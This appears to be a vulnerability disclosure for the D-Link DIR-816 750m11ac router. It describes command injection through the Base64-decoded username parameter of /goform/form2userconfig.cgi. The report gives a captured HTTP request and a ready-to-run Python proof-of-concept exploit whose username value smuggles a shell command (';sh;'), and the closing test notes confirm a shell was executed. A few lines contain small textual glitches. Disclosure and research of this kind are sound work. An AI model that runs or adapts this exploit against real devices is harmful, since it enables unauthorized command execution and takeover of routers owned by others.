

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router , 

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_4566E0 ruction in IDA view


​	Select user account configuration under the maintenance option of router configuration.



​	The modified user name is processed through the webdecode64 function and passed to the dosystem function in the form of formatted parameters. Therefore, the user name is constructed for command injection.

```
POST /goform/form2userconfig.cgi HTTP/1.1

Host: 192.168.33.9

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 183

Origin: http://192.168.33.9

Connection: close

Referer: http://192.168.33.9/d_userconfig.asp

Cookie: curShow=

Upgrade-Insecure-Requests: 1


username=Jztsczsn&privilege=2&oldpass=&newpass=MTIz&confpass=MTIz&deluser=%E5%88%A0%E9%99%A4&select=s0&hiddenpass=192.168.33.9&submit.htm%3Fuserconfig.htm=Send&tokenid=304089172
```

​	The function uses Base64 to decode the received user name, so Base64 encoding is required.


​	 this vulnerability requires the user to have permission to configure the router

##### POC&&EXP

```python
import requests
import base64
headers={
	"Host":"192.168.33.9",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
	"Content-Type":"Content-Type",
	"Origin":"http://192.168.33.9",
	"Referer":"http://192.168.33.9/d_userconfig.asp",
	"Cookie":"curShow=",
	"Upgrade-Insecure-Requests":"1"
}
data={
	"username":base64.b64encode("';sh;'"),#input Command
	"privilege":"2",
	"oldpass":"123",
	"newpass":"MTIz",
	"confpass":"MTIz",
	"deluser":"\xe5\x88\xa0\xe9\x99\xa4",
	"select":"s0",
	"hiddenpass":"192.168.33.9",
	"submit.htm?userconfig.htm":"Send",
	"tokenid":"35005211"#Packet capture analysis
}
proxies={
'http':'127.0.0.1:8080',
'https':'127.0.0.1:8080'
}
#url="http://149.28.168.149/goform/form2systime.cgi"
url="http://192.168.33.9/goform/form2userconfig.cgi"
t=requests.post(url,headers=headers,data=data)
print t.text
```

##### TEST

​	First run our POC


​	GDB stops at the command we are about to execute


​	Successfully executed sh

